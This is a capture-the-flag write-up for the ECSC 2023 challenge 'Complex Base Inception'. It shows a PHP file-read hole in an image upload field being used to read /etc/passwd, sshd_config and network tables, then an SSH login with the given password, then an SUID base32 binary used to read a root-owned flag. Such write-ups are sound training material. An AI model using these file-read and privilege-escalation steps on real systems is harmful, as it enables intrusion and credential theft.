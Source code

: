 # Complex Base Inception

> Simply log in via SSH.
> 
> `TDBuZzRuZFN0cjBuZ1Bhc3Mxc1RoZUJhc2VTb21lVzNpcmRUeHQ=`
> 
> Oh, I forgot to add, the website seems to be using some kind of a proxy, and I don't know the real address.
> 
> https://complex-base-inception.ecsc23.hack.cert.pl/

## Recon
The website contains a form which allows to upload photos and a subpage to view uploaded photos. Clicking `send` sends a XHR request to the server with `image` form field set to `data:image/png;base64,[base64-encoded image]`. Upon changing the value of the field to `foobar` and inspecting response content, the following can be seen: ![warning](media/warning.png)

The `image` field is passed to php function `file_get_contents`, which means we can use it to read arbitrary files from the server's filesystem. Their contents can be intercepted in the gallery, by base64-decoding souces of `img` tags present there.

## Exploiting the LFI
First, let's learn the true IP address of the server by reading `/proc/net/fib_trie`. The entry that's important is:
```
+-- 38.60.249.0/24 2 0 1
        [...]
        |-- 38.60.249.147
           /32 host LOCAL
        [...]
```
So the IP address is `38.60.249.147`. However, port 22 is closed on this host, so it's necessary to find the correct port in `/etc/ssh/sshd_config`:
```
#	$OpenBSD: sshd_config,v 1.103 2018/04/09 20:41:22 tj Exp $

[...]

Include /etc/ssh/sshd_config.d/*.conf

Port 64
[...]
```
Finally, let's find users present on the server by reading `/etc/passwd`:
```
root:x:0:0:root:/root:/bin/bash
[...]
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
[...]
base64:x:1001:1001::/home/base64:/bin/bash
[...]
```
Only these 3 users have a login shell set. The correct user is `base64` and its password is given in base64-encoded form in the task description: `L0ng4ndStr0ngPass1sTheBaseSomeW3irdTxt`. Now it's possible to log in using
```sh
$ ssh base64@38.60.249.147 -p 64
```
and the correct password.

In the user's home folder, a file named `flag.b64` is present, but it is owned and can only be read by root.

## Finding a way to read the flag
Running a tool line [linpeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20230724-deeec83e) reveals that the executable `/usr/bin/base32` has SUID bit set, which means it can be used to read the flag:
```sh
$ /usr/bin/base32 ~/flag.b64 | base32 -d | base64 -d
ecsc23{some_unguessable_text_and_some_salt_dtcpkhaa}
```
(Notice that it's necessary to provide the full path to the executable to read the file, since `base32` in the PATH is actually `/usr/sbin/base32` and doesn't have the SUID bit set.)

## Flag
`ecsc23{some_unguessable_text_and_some_salt_dtcpkhaa}`